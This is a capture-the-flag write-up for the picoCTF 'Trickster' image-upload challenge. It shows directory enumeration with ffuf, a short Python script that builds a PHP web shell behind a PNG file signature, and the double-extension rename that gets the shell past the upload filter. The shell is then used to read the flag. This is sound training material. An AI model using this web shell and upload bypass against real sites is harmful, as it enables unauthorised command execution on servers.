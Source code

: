 # Trickster

## Challenge Description

I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

***

## Solution

First I visited the website. There was a option to upload PNG files.

First I uploaded a test image file to check the functionality. The file was successfully uploaded.

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

But it didn't show where the file file was uploaded. So I used ffuf enumerating directories.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://atlas.picoctf.net:53866/FUZZ
```

From the results of the above command, found a directory called uploads.

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

Next I tried to uplaod a PHP file, that executes commands on the target machine. I created the PHP file  with PNG as the file signature using the following python script.

```python
# PHP reverse shell of type image
fh = open('shell.php', 'wb')
fh.write(b'\x89\x50\x4E\x47' + b'<? passthru($_GET["cmd"]); ?>')
fh.close()
```

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

After generating the PHP file, I tried to upload it. But it thrown me an error that the file name doesn't contain '.png' in it. So I just renamed the file to `shell.png.php`, and tried uploading the file and the file was uploaded successfully.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Now I tried to access the php file we uploaded by checking the path `/uploads/shell.png.php`. The website thrown an error which states that our PHP payload worked successfully and we have got access to the target machine.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Next I tried to list the current working directory by supplying the `ls` command to the `cmd` parameter and we got the response with all the files in the current directory.

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Similarly I check parent directory of the uploads directory by using the command `ls ../`, where I found a text file.

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

I used the `cat` command to view the contents of the file and got the file.

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}`

